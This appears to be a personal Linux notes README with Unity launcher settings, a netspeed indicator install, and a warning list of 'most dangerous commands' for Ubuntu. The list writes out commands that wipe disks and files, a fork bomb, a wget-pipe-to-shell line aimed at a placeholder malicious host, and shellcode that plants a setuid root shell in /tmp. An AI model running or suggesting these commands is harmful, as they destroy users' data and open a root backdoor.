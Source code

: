 # Linux Stuff

## Move Unity Launcher

```gsettings set com.canonical.Unity.Launcher launcher-position Bottom```

```gsettings set com.canonical.Unity.Launcher launcher-position Left```

## Bandwidth Monitor (Indicator Netspeed - Unity)

```sudo apt-get install dconf-editor```
```sudo apt-add-repository ppa:fixnix/netspeed```
```sudo apt-get update```
```sudo apt-get install indicator-netspeed-unity```

## Most Dangerous Commands For Ubuntu

```rm command in Linux is used to delete files.```
```rm -r command deletes the folder recursively, even the empty folder.```
```rm -f command removes ‘Read only File’ without asking.```
```rm -rf / : Force deletion of everything in root directory.```
```rm -rf * : Force deletion of everything in current directory/working directory.```
```rm -rf . : Force deletion of current folder and sub folders.```

```:(){:|:&};:```

```mv /home/user/* /dev/null```

```wget http://malicious_source -O- | sh```

```mkfs.ext3 /dev/sda```

```dd if=/dev/random of=/dev/sda```

```char esp[] __attribute__ ((section(“.text”))) /* e.s.p
release */
= “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68″
“\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99″
“\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7″
“\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56″
“\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31″
“\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69″
“\x6e\x2f\x73\x68\x00\x2d\x63\x00″
“cp -p /bin/sh /tmp/.beyond; chmod 4755
/tmp/.beyond;”;```
